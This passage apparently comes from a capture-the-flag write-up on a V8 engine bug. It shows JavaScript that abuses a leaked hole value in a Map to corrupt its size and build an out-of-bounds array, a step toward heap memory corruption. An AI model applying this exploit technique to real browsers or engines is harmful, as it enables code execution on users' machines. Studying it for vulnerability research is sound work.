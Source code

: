 ![maths_meme](images/maths_meme.jpg)

Let us combine what we saw so far and try to have an array with a big size.

Here is our exploit:

```js
var vuln_set = new Set();

var map = new Map();
map.set(1, 8);
map.set(vuln_set.hole(), 0x8);
map.delete(vuln_set.hole());
map.delete(vuln_set.hole());
map.delete(1);
// map.size == -1

// Overwrite bucket count
map.set(0x18, "Ruulian");

// array to increase the offset of the oob array
var nop = new Array(1);

// oob_array 
var oob_array = [];

// Overwrite oob_array size with pointer to "1"
map.set("1", "Ruulian");

%DebugPrint(oob_array);
```
